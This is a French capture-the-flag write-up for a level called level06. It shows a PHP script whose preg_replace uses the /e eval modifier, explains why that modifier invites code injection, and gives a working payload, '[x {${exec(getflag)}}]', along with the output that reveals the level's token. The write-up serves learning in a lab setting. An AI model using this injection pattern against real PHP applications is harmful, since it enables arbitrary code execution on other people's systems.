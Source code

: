 On trouve dans le dossier **home** un binaire nommé **level06** et un fichier php nommé **level06.php** contenant le code suivant :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);	# Remplace \. par " x"
	$m = preg_replace("/@/", " y", $m);	# Remplace @ par " y"
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	# Le modificateur /e prend une chaîne de remplacement, et substitue le backslash suivi d'un nombre
	# et exécute la chaîne résultante comme s'il s'agissait de code PHP
	$a = preg_replace("/\[/", "(", $a);
	# Remplace [ par (
	$a = preg_replace("/\]/", ")", $a);
	# Remplace ) par )
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> La partie interessante dans le code est <code>/(\[x (.*)\])/e</code> car le **preg_replace** utilise le *modifier* **/e** ou **(PREG_REPLACE_EVAL)**, qui est connu pour être sensible aux injections (Il n'existe meme plus en PHP 7.0.0)

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit être formatée de la manière suivante:

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

L'injection permet de remplacer le <code>(.*)</code> par une commande, comme par exemple **getflag**:

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>

